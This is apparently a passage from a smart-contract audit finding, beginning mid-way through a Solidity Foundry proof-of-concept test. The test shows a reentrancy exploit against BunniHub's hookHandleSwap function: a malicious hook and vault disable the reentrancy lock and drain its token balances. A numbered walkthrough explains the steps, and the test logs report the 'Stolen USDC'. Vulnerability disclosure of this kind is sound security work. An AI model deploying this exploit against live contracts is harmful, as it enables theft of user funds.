 ```solidity
        IBunniHub(address(hub)),
        maliciousKey,
        USDCVault,
        initialToken0Deposit,
        Vector.HOOK_HANDLE_SWAP,
        20
    );
    console.log(
        "BunniHub token0 raw balance after",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token0)).toId())
    );
    console.log("BunniHub token0 vault reserve after", ERC4626(USDCVault).balanceOf(address(hub)));
    console.log(
        "MaliciousHook token0 balance after",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId())
    );
    console.log(
        "Stolen USDC",
        poolManager.balanceOf(customHook, Currency.wrap(address(token0)).toId()) - initialToken0Deposit
    );
}
```

The execution does the following:
1. Calls `depositInitialReserves()` from the malicious hook which essentially deposits and accounts some raw balance into `BunniHub`.
2. Calls the `hookHandleSwap()` function inside `BunniHub` to withdraw the previously deposited amount.
3. The `BunniHub` transfers the tokens to the hook.
4. The `hookHandleSwap()` tries to reach the `targetRawBalance` of token1 and calls the `deposit()` into the malicious vault which forwards the execution back to the malicious hook.
5. The malicious hook calls the `unlockForRebalance()` function to disable the reentrancy protection.
6. The malicious hook reenters the `hookHandleSwap()` function the same way as step 2.

Once the function has been re-entered a sufficient number of times to drain all raw balances, the state will be set to 0 instead of decrementing, avoiding an underflow. The end result will be the malicious hook owning all ERC-6909 tokens previously held by the `BunniHub`.

Output:
```bash
Ran 1 test for test/BunniHub.t.sol:BunniHubTest
[PASS] test_ForkHookHandleSwapDrainRawBalancePoC() (gas: 20540027)
Logs:
  BunniHub token0 raw balance before 219036268296
  BunniHub token0 vault reserve before 388807745471
  MaliciousHook token0 balance before 0
  BunniHub token0 raw balance after 9036268296
  BunniHub token0 vault reserve after 388807745471
  MaliciousHook token0 balance after 210000000000
  Stolen USDC 200000000000
```
